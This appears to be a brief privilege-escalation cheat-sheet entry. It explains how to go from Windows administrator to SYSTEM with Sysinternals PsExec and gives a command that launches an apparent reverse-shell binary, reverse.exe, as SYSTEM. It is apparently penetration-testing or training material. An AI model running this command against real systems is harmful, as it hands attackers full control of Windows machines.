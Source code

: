 # Admin to SYSTEM

Admin -&gt; SYSTEM To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals \([https://docs.microsoft.com/en-](https://docs.microsoft.com/en-) us/sysinternals/downloads/psexec\).

```text
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

